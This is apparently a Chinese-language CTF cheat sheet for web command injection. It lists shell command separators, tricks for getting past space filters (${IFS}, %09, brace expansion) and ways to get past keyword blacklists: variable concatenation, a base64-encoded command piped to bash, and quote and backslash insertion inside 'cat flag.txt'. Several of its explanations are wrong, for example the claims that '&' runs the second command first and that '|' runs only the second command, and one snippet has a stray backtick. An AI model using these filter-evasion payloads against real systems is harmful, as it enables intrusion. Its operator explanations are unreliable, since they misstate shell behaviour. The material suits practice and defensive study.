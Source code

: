 # Web常用语句

## 命令执行

```
command1 & command2 ：先执行command2后执行command1
command1 && command2 ：先执行command1后执行command2
command1 | command2 ：只执行command2
command1 || command2 ：command1执行失败，再执行command2(若command1执行成功，就不再执行command2)
```


### 空格绕过

```
> < <> 重定向符
%09(需要php环境)
${IFS}
$IFS$9
{cat,flag.php} //用逗号实现了空格功能
%20
%09
```

### 黑名单绕过

** 拼接 **

```
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

** base64 **

使用反引号包含base64解码后的命令
```
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d`
```

将base64解码后的命令通过管道符传递给bash
```
echo "Y2F0IGZsYWcudHh0Cg==" | base64 -d | bash
```

** 单引号，双引号 **

```
c""at fl''ag.tx""t
```

** 反斜杠 **

```
c\at fl\a\g.tx\t
```

** $1 **
